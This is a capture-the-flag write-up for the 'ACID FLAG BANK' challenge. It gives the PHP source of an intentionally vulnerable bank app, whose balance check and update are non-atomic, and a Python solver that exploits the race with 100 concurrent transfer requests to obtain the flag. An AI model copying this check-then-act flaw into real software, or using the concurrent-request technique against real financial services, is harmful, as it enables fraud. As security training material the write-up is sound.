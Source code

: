 # ACID FLAG BANK [MODERATE]

## Description

> You can purchase a flag directly from the ACID flag bank, however there aren't enough funds in the entire bank to complete that transaction! Can you identify any vulnerabilities within the ACID flag bank which enable you to increase the total available funds?

## Source Code

<details><summary>Click here for source code in text format</summary>

```php
<?php
require_once('flag.php');

class ChallDB
{
    public function __construct($flag)
    {
        $this->pdo = new SQLite3('/tmp/users.db');
        $this->flag = $flag;
    }
 
    public function updateFunds($id, $funds)
    {
        $stmt = $this->pdo->prepare('update users set funds = :funds where id = :id');
        $stmt->bindValue(':id', $id, SQLITE3_INTEGER);
        $stmt->bindValue(':funds', $funds, SQLITE3_INTEGER);
        return $stmt->execute();
    }

    public function resetFunds()
    {
        $this->updateFunds(1, 247);
        $this->updateFunds(2, 0);
        return "Funds updated!";
    }

    public function getFunds($id)
    {
        $stmt = $this->pdo->prepare('select funds from users where id = :id');
        $stmt->bindValue(':id', $id, SQLITE3_INTEGER);
        $result = $stmt->execute();
        return $result->fetchArray(SQLITE3_ASSOC)['funds'];
    }

    public function validUser($id)
    {
        $stmt = $this->pdo->prepare('select count(*) as valid from users where id = :id');
        $stmt->bindValue(':id', $id, SQLITE3_INTEGER);
        $result = $stmt->execute();
        $row = $result->fetchArray(SQLITE3_ASSOC);
        return $row['valid'] == true;
    }

    public function dumpUsers()
    {
        $result = $this->pdo->query("select id, funds from users");
        echo "<pre>";
        echo "ID FUNDS\n";
        while ($row = $result->fetchArray(SQLITE3_ASSOC)) {
            echo "{$row['id']}  {$row['funds']}\n";
        }
        echo "</pre>";
    }

    public function buyFlag($id)
    {
        if ($this->validUser($id) && $this->getFunds($id) > 247) {
            return $this->flag;
        } else {
            return "Insufficient funds!";
        }
    }

    public function clean($x)
    {
        return round((int)trim($x));
    }
}

$db = new challDB($flag);
if (isset($_GET['dump'])) {
    $db->dumpUsers();
} elseif (isset($_GET['reset'])) {
    echo $db->resetFunds();
} elseif (isset($_GET['flag'], $_GET['from'])) {
    $from = $db->clean($_GET['from']);
    echo $db->buyFlag($from);
} elseif (isset($_GET['to'],$_GET['from'],$_GET['amount'])) {
    $to = $db->clean($_GET['to']);
    $from = $db->clean($_GET['from']);
    $amount = $db->clean($_GET['amount']);
    if ($to !== $from && $amount > 0 && $amount <= 247 && $db->validUser($to) && $db->validUser($from) && $db->getFunds($from) >= $amount) {
        $db->updateFunds($from, $db->getFunds($from) - $amount);
        $db->updateFunds($to, $db->getFunds($to) + $amount);
        echo "Funds transferred!";
    } else {
        echo "Invalid transfer request!";
    }
} else {
    echo highlight_file(__FILE__, true);
}
```

</details>

## Short Solution Description / Tags

Race Condition

## Solution

By Race Condition, increase the fund of the user with ID 2 to over 247 and get the flag.

solver.py

```python
import concurrent.futures
import re
import requests

requests.packages.urllib3.disable_warnings()


BASE_URL = "https://fbfce4182bc9250e.247ctf.com"

s = requests.Session()
# s.proxies = {"https": "http://127.0.0.1:8080"}
s.verify = False


def exploit():
    s.get(f"{BASE_URL}/?reset=")

    send_transfer_request = lambda: s.get(f"{BASE_URL}/?from=1&to=2&amount=247")

    concurrency = 100
    with concurrent.futures.ThreadPoolExecutor(max_workers=concurrency) as executor:
        [executor.submit(send_transfer_request) for _ in range(concurrency)]

    res = s.get(f"{BASE_URL}/?flag=&from=2")

    return res


def main():
    while True:
        res = exploit()
        if re.search(r"Insufficient funds!", res.text):
            continue

        print(res.text)
        break


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 solver.py
247CTF{[REDACTED]}
```
